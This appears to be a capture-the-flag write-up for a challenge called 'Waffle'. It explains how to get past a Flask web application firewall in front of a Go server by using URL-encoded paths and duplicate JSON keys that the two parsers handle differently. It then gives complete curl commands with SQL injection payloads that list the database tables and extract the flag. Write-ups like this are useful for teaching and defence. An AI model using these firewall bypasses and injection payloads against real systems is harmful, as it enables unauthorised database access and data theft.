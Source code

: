 Waffle
---

In this challenge we were presented with a Golang HTTP server behind the Flask firewall. 

The goland server had 2 interesting endpoints, and so did the WAF:

1. `/gettoken`: this endpoint validated that the `promocode` get-parameter equals toi string `FREEWAF`, and thw WAF checks the contrary.
   To bypass the WAF, one can notice that Flask urldecodes the path, so we make the request to `/gettoken%3f?promocode=FREEWAF`, and the whole string will be considered as path, 
   so the get-parameter check will not trigger. After that, Flask will make the request to `appHost+path`, where the `path` is already urlencoded, effectively 
   passing the promocode as get-parameter.
   
Final request for (1):

```shell
curl -v --path-as-is "http://waffle.challs.m0lecon.it/gettoken%3fcreditcard=123&promocode=FREEWAF"
```

2. `/search`: this endpoint searches the database for waffles matching some criteria. There's a clear sql injection in all fields,
   but the WAF checks that all parameters are numbers or alphanumeric strings. However, after experimenting with the locally-deployed copy
   of the task, one can notice that Flask json decoding takes the last key occurrence if there are multiple, whereas the Golang decoder 
   (some external one) takes the first. This allows us to pass sql injection in the `name` field. First, we enumerate the tables 
   (using the token acquired in the step 1):
   
```shell
curl --path-as-is -XPOST --cookie "token=LQuKU5ViVGk4fsytWt9C" --data "{\"name\": \"' or 1=1 union select 1, 1, 1, name from sqlite_master where type = 'table' -- \", \"name\": \"flag\"}" "http://waffle.challs.m0lecon.it/search"
```

Which gives us the `flag` table. Then we can select everything from it, getting the flag:

```shell
curl --path-as-is -XPOST --cookie "token=LQuKU5ViVGk4fsytWt9C" --data "{\"name\": \"' or 1=1 union select 1, 1, 1, * from flag -- \", \"name\": \"flag\"}" "http://waffle.challs.m0lecon.it/search"
```

Flag: `ptm{n3ver_ev3r_tru5t_4_pars3r!}`   
